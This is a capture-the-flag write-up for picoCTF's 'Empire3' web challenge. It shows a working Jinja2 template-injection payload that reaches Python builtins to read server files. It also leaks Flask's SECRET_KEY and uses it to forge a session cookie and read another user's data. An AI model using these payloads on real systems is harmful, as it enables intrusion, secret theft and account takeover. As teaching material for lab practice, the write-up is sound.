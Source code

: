 # Empire3
Web Exploitation, 500 points

## Description:
> Agent 513! One of your dastardly colleagues is laughing very sinisterly! Can you access his todo list and discover his nefarious plans?


## Solution: 

This is the follow-up for [Empire2](Empire2.md).

We'll use the same solution that worked for the previous challenge:

```console
root@kali:/media/sf_CTFs/pico/Empire3# python shell.py
Logged in
(Cmd) send 4*4
Sending: '{{4*4}}'

16

(Cmd) send ''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__['open'](''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__.__import__('os').path.join('app', '__init__.py')).read
()
Sending: '{{''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__['open'](''.__class__.mro()[1].__subclasses__()[157]()._module.__builtins__.__import__('os').path.join('app', '__init__.py')).read()}}'

from flask import Flask
from app.config import Config
from flask_sqlalchemy import SQLAlchemy
from flask_login import LoginManager
from flask_bootstrap import Bootstrap
import time,atexit
from apscheduler.schedulers.background import BackgroundScheduler

app = Flask(__name__)
app.config.from_object(Config)
db = SQLAlchemy(app)
login = LoginManager(app)
login.login_view = 'login'
bootstrap=Bootstrap(app)

from app import routes,models

def DB_init(db):
    db.drop_all()
    db.create_all()

    u = models.User(username='jarrett.booz',password_hash='deadbeef',id=1,admin=0,secret='Likes Oreos.', name="Jarrett Booz")
    db.session.add(u)

    u = models.User(username='danny.tunitis',password_hash='deadbeef',id=2,admin=0,secret='Know it all.', name= "Danny Tunitis")
    db.session.add(u)

    c = models.Todo(item='Shrink the moon', user_id=1)
    db.session.add(c)

    c = models.Todo(item='Grab the moon', user_id=1)
    db.session.add(c)

    c = models.Todo(item='Sit on the toilet', user_id=1)
    db.session.add(c)

    c = models.Todo(item='Make 2000 more Pico problems', user_id=2)
    db.session.add(c)

    c = models.Todo(item='Do dastardly plan: picoCTF{cookies_are_a_sometimes_food_8038d44f}', user_id=2)
    db.session.add(c)

    c = models.Todo(item='Buy milk', user_id=2)
    db.session.add(c)

    db.session.commit()

try:
    DB_init(db)
    scheduler = BackgroundScheduler()
    scheduler.add_job(func=DB_init,args=(db,),trigger="interval",hours=2)
    scheduler.start()
    atexit.register(lambda: scheduler.shutdown())
except Exception as e:
    print(e)
```

The flag is related to cookies (`picoCTF{cookies_are_a_sometimes_food_8038d44f}`), so again, this looked like an unintended solution.

## Additional Solution

An additional way to solve the challenge, based on [another writeup](http://cyberchallenge.unica.it/index.php/2019/10/13/web-empire3/). This is probably the intended solution. It's also pretty similar to last year's [Flaskcards Skeleton Key](/2018_picoCTF/Flaskcards%20Skeleton%20Key.md)

First, we read the Flask configuration to get the secret key used for signing the cookies:

```console
root@kali:/media/sf_CTFs/pico/Empire3# python shell.py
Logged in
(Cmd) send config
Sending: '{{config}}'

<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': '9806d62bb5f4986c09a3872abf448e85', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite://', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}, 'BOOTSTRAP_USE_MINIFIED': True, 'BOOTSTRAP_CDN_FORCE_SSL': False, 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'BOOTSTRAP_SERVE_LOCAL': False, 'BOOTSTRAP_LOCAL_SUBDOMAIN': None}>

(Cmd) exit

```

We sign in and save the cookie:

```console
root@kali:/media/sf_CTFs/pico/Empire3# base_url=https://2019shell1.picoctf.com/problem/45132; curl "$base_url/login" --cookie "cookies.txt" --cookie-jar "cookies.txt" -s -v --data "csrf_token=$(curl "$base_url/login" --cookie "cookies.txt" --cookie-jar "cookies.txt" -s | grep csrf | awk '{ printf $5 }' | sed 's/value="//g' | sed 's/">//')&username=user&password=password" 2>&1 | grep Cookie
> Cookie: session=.eJwlz01qAzEMQOG7eJ2FrV8rlxksWaKl0MJMsiq9ewI9wIPv_bajzrw-2v1xPvPWjs_d7s2oyhZKMuvWRaG5t0lIUJnN3jt31k7u5emTF8gyU89hsIcKgc_ZR6DtLMYOYzDhnrrUapoQaRlwLjIK4aANDEHqIqPIV7u1uM46Hj9f-f32qK5wMcG5MYeiR6Qr9EBWzHCLTJjA7-555fk_ge3vBWc8PpY.XaXtmg.iKsUADWNOPFQ4iKm3eYHoF4v0qI
< Vary: Cookie
```

We decode the cookie with [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager) (note that I had to use the Python3 version this time, as the Python2 version created cookies that were rejected by the server in the next step):
```console
root@kali:/media/sf_CTFs/pico/Empire3# c=.eJwlz01qAzEMQOG7eJ2FrV8rlxksWaKl0MJMsiq9ewI9wIPv_bajzrw-2v1xPvPWjs_d7s2oyhZKMuvWRaG5t0lIUJnN3jt31k7u5emTF8gyU89hsIcKgc_ZR6DtLMYOYzDhnrrUapoQaRlwLjIK4aANDEHqIqPIV7u1uM46Hj9f-f32qK5wMcG5MYeiR6Qr9EBWzHCLTJjA7-555fk_ge3vBWc8PpY.XaXtmg.iKsUADWNOPFQ4iKm3eYHoF4v0qI

root@kali:/media/sf_CTFs/pico/Empire3# python3 ~/utils/flask-session-cookie-manager/flask_session_cookie_manager3.py decode -s '9806d62bb5f4986c09a3872abf448e85' -c "$c"
{'_fresh': True, '_id': '94ff9a36e557d7a4c7edd96c6c4f998000505704bbfbeb85a26a997be192d17642b8801c39def530211543d87a79f896447f925ea494c65c4d252c47b661f4ba', 'csrf_token': '77acb69638d3e173bcceb720c3573ecb9cee2825', 'user_id': '3'}
```

Edit the cookie and set `user_id` to `2` instead of `3`:

```console
root@kali:/media/sf_CTFs/pico/Empire3# python3 ~/utils/flask-session-cookie-manager/flask_session_cookie_manager3.py encode -s '9806d62bb5f4986c09a3872abf448e85' -t "{'_fresh': True, '_id': '94ff9a36e557d7a4c7edd96c6c4f998000505704bbfbeb85a26a997be192d17642b8801c39def530211543d87a79f896447f925ea494c65c4d252c47b661f4ba', 'csrf_token': '77acb69638d3e173bcceb720c3573ecb9cee2825', 'user_id': '2'}"
.eJwlz0lqAzEQQNG7aO2FVKpB5cs0qomEQALd9irk7jbkAB_e_21HnXl9tPvjfOatHZ_R7k2xSvfkJJKQjS4ZoezsWKqr906dpKNZWdqiDbxVxXIoxBBGsLX68KmRRbPDGIQzlmzRWsqIUgqUGxWdyTGAwFGMeRTabrfm11nH4-crv98eke3GynPFzCHT3NMEuk-SmW7qmbCA3t3zyvN_AtrfC2c5PpU.XaX3qA.ORVdqh-0iJQkIjXNcElr5vSPjZY
```

List the TODOs with for user 2 and read the flag:
```console
root@kali:/media/sf_CTFs/pico/Empire3# curl "$base_url/list_items" -H "Cookie: session=.eJwlz0lqAzEQQNG7aO2FVKpB5cs0qomEQALd9irk7jbkAB_e_21HnXl9tPvjfOatHZ_R7k2xSvfkJJKQjS4ZoezsWKqr906dpKNZWdqiDbxVxXIoxBBGsLX68KmRRbPDGIQzlmzRWsqIUgqUGxWdyTGAwFGMeRTabrfm11nH4-crv98eke3GynPFzCHT3NMEuk-SmW7qmbCA3t3zyvN_AtrfC2c5PpU.XaX3qA.ORVdqh-0iJQkIjXNcElr5vSPjZY" -s | grep picoCTF
                                <strong>Very Urgent: </strong>Do dastardly plan: picoCTF{cookies_are_a_sometimes_food_8038d44f}
```
